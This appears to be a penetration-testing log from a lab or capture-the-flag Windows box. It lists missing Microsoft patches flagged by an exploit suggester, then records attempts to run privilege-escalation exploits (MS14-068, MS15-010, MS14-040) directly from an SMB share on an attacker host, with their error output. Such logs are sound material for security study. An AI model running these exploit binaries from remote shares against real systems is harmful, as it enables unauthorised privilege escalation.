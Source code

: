     [M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
    [M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
    [M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
    [M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
    [M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
    [M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
    [M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
    [M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
    [M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
    [M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
    [M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
    [M] MS08-078: Security Update for Internet Explorer (960714) - Critical
    [*] done


    MS14-070:
      No output when executing binary

    MS15-051:
      Froze/crashed shell

    MS14-068:
      C:\Inetpub\wwwroot> //10.10.14.8/share/MS14-068.exe
        Traceback (most recent call last):
        File "<string>", line 14, in <module>
        File "Z:\usr\share\pyinstaller\PyInstaller-3.1.1\PyInstaller\loader\pyimod03_importers.py", line 315, in load_module
        File "Z:\usr\share\pyinstaller\PyInstaller-3.1.1\PyInstaller\loader\pyimod02_archive.py", line 323, in extract
        IOError: [Errno 9] Bad file descriptor
        ms14-068 returned -1

    MS15-010:
      C:\Inetpub\wwwroot> //10.10.14.8/share/39035.exe
        The image file \\10.10.14.8\share\39035.exe is valid, but is for a machine type other than the current machine.

    MS14-040:
      C:\Inetpub\wwwroot> //10.10.14.8/share/MS14-40-x86.exe
        [+] creating socket...
        [+] got sock 0x668
        [+] sock connected.

        [+] GO!
        [+] Retrieving Kernel info...
        [+] Kernel version: ntkrnlpa.exe
        [+] Kernel base address: 0x80800000L
        [+] HalDispatchTable address: 0x8088e078L
        Traceback (most recent call last):
        File "<string>", line 158, in <module>
        TypeError: unsupported operand type(s) for +: 'NoneType' and 'int'
